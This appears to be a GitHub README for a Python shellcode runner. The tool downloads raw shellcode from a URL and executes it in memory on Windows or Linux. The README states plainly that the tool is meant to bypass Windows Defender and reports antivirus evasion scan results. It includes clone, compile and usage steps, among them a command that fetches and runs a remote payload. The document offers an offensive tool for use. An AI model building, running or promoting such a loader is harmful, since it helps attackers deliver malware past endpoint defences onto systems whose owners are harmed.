


# buffshark-shellcode-runner

## Python Shellcode Runner for windows and linux
This script utilizes mmap(for linux) and win32 api wrappers (for windows) to execute shellcode in memory and bypass Windows Defender.

## Installation and Compiling
1. Download the repo: `git clone https://github.com/momo1239/buffshark-shellcode-runner`
2. Move directory: `cd buffshark-shellcode-runner/`

```
└─# python3 buffshark.py -h                                       
==========================
Buff Shark Shellcode Runner
 Author: Momo Nguyen 
==========================
usage: buffshark.py [-h] -u  -a

Python Shellcode Runner

optional arguments:
  -h, --help            show this help message and exit
  -u , --url            URL to raw shellcode file
  -a , --architecture   Choose OS
  ```
                                     
4. Optional: Install pyinstaller to compile to windows executable: `pip install pyinstaller`
5. Optional: Compile: `pyinstaller -F buffshark.py`

## Usage
Example: `python3 buffshark.py -u http://127.0.0.1:8080/shellcode.bin -a [win/nix]`

```
==========================
Buff Shark Shellcode Runner
 Author: Momo Nguyen 
==========================
[+] Downloading shellcode...
[+] 49 Bytes Downloaded!
[+] Running shellcode in memory...
README.md  antiscan.PNG  antiscanres.PNG  buffshark.exe  buffshark.py  shell.bin  shellcode
```

## AV Scan
As of 11/22/2021, Windows Defender does not flag this shellcode runner.

1/26 AV has flagged buffshark on antiscan.me





